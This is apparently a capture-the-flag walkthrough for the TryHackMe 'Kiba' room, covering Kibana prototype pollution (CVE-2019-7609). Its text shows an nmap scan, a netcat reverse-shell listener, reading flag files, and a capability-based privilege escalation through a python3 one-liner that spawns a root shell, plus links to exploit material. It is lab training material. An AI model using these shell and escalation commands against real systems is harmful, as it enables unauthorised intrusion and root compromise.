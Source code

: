 ```yaml
---
description: https://tryhackme.com/room/kiba
---
```


# kiba

## :writing\_hand: Solution

### What is the vulnerability that is specific to programming languages with prototype-based inheritance?

![](<../../.gitbook/assets/Screenshot from 2020-09-29 22-43-00.png>)

### What is the version of visualization dashboard installed in the server?

![](<../../.gitbook/assets/Screenshot from 2020-09-29 23-16-56.png>)

### What is the CVE number for this vulnerability?

![](<../../.gitbook/assets/Screenshot from 2020-09-29 22-51-05.png>)

### Compromise the machine and locate user.txt

```
nmap 10.10.191.136
nmap -p5601 10.10.191.136
```

![](<../../.gitbook/assets/Screenshot from 2020-09-29 22-43-59.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-29 22-53-54.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-29 23-50-49.png>)

```
nc -nvlp 4444
$ ls -lA /home
$ ls -lA /home/kiba
$ cat /home/kiba/user.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-29 23-27-05.png>)

### How would you recursively list all of these capabilities?

> getcap  -r /

### Escalate privileges and obtain root.txt

```
getcap -r /
/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
$ cat /root/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-30 00-27-54.png>)

## Support Material

{% embed url="https://portswigger.net/daily-swig/prototype-pollution-the-dangerous-and-underrated-vulnerability-impacting-javascript-applications" %}

{% embed url="https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/" %}

{% embed url="https://github.com/mpgn/CVE-2019-7609" %}

{% embed url="https://feichashao.com/capabilities_basic/" %}

